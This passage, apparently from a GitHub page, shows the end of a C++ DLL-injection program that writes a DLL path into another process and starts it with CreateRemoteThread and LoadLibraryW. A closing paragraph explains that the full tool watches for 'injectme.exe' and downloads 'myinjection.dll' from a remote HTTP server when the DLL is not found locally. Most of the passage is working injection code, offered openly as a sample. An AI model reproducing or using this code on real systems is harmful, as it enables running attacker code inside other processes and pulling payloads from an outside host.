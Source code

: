    ```cpp

       if (!WriteProcessMemory(hProcess, pRemoteMemory, dllPath.c_str(), dllPath.size() * sizeof(wchar_t), NULL)) {
           std::wcerr << L"Failed to write DLL path to target process memory." << std::endl;
           VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
           CloseHandle(hProcess);
           return 1;
       }

       HMODULE hKernel32 = GetModuleHandle(L"kernel32.dll");
       if (hKernel32 == NULL) {
           std::wcerr << L"Failed to get handle to kernel32.dll." << std::endl;
           VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
           CloseHandle(hProcess);
           return 1;
       }

       LPVOID pLoadLibraryW = (LPVOID)GetProcAddress(hKernel32, "LoadLibraryW");
       if (pLoadLibraryW == NULL) {
           std::wcerr << L"Failed to get address of LoadLibraryW." << std::endl;
           VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
           CloseHandle(hProcess);
           return 1;
       }

       HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pLoadLibraryW, pRemoteMemory, 0, NULL);
       if (hThread == NULL) {
           std::wcerr << L"Failed to create remote thread." << std::endl;
           VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
           CloseHandle(hProcess);
           return 1;
       }

       WaitForSingleObject(hThread, INFINITE);

       VirtualFreeEx(hProcess, pRemoteMemory, 0, MEM_RELEASE);
       CloseHandle(hThread);
       CloseHandle(hProcess);

       std::wcout << L"Injection completed successfully." << std::endl;
       return 0;
   }
   ```

Here’s a sample C++ code that demonstrates how to inject a DLL into a process using Win32 APIs. This code continuously checks if a process named `injectme.exe` is running. If it detects the process, it tries to inject `myinjection.dll` from `C:\Windows\Tasks`. If the DLL doesn't exist locally, it downloads the DLL from `http://192.168.45.250:8000/myinjection.dll` into memory and performs the injection.
